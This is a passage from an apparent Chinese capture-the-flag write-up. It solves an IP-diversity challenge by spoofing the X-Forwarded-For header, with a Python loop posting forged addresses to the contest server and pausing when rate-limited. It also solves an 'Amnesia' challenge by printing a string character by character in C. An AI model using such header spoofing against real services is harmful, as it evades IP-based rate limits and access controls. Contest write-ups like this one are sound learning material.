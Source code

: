 总结题意：你需要用 256 个不同的 /8 IP 地址砍红包（访问对应 URL）。

但是这怎么可能呢，有些 IP 段本来就是有保留用途的，而且时间还限制 10 分钟。

~~经过一番胡思乱想~~，发现可以通过携带 `X-Forwarded-For` header 来欺骗，就能轻松砍到 flag。

```python
import requests
import time

for i in range(256):
    while True:
        r = requests.post(
            'http://202.38.93.111:10888/invite/...',
            data={ 'ip': f'{i}.1.1.1' },
            headers={ 'X-Forwarded-For': f'{i}.1.1.1' })

        if '助力成功！' in r.text:
            print(f'Success {i}')
            break
        elif '操作速度太快了' in r.text:
            print(f'Too fast, sleep')
            time.sleep(1)
```

# Amnesia - 轻度失忆

`.data` 段没了，字符串常量是储存在这里的。既然不能用字符串常量，就分割成字符就可以了。

```c
#include <stdio.h>

int main() {
    putchar('H');
    putchar('e');
    putchar('l');
    putchar('l');
    putchar('o');
    putchar(',');
    putchar(' ');
    putchar('w');
    putchar('o');
    putchar('r');
    putchar('l');
    putchar('d');
    putchar('!');

    return 0;
}
```

# 图之上的信息
